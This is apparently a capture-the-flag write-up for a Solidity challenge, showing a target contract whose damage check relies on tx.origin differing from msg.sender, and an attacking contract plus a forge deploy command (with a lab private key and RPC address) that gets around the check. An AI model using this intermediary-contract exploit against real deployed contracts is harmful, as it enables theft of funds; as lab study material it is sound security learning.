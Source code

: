```
function attack(uint256 _damage) external {
    // When we call the function, this saves the message sender in aggro
    if (aggro == address(0)) {
        aggro = msg.sender;
    }
    // To deal damage, we must be different from aggro
    if (_isOffBalance() && aggro != msg.sender) {
        lifePoints -= _damage;
    } else {
        lifePoints -= 0;
    }
}
// This function checks if we call the attack function from a different
// address than the one used to initiate the transaction
function _isOffBalance() private view returns (bool) {
    return tx.origin != msg.sender;
}
```

Key points:

- `tx.origin`: The address that started the transaction.
- `msg.sender`: Represents the immediate sender of the current call, which could be an external address or contract.

### Problem

We cannot call the `attack` function directly; we must do so through an external contract. The potential contract can be:

```
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.13;

contract Character {
    // Address of the creature
    address TARGET = 0xbFd169395Ed9437098b36FF3F3b5cB853485b66f;

    // Function that calls the function in the creature contract
    function attack(uint256 _damage) external {
        // Use encodeWithSignature to call the attack function in the creature contract
        (bool success, ) = TARGET.call(abi.encodeWithSignature("attack(uint256)", _damage));
        // Check if the call was successful
        require(success, "Call failed");
    }
}
```

We deploy this contract to the provided network:
using the command
```
forge create src/Character.sol:Character 
--private-key 0x560c0d61249d7c86390fac1d8ae0c532c598913628e39f0b84c4975deab74e65 --rpc-url http://94.237.54.60:51578/rpc --broadcast
```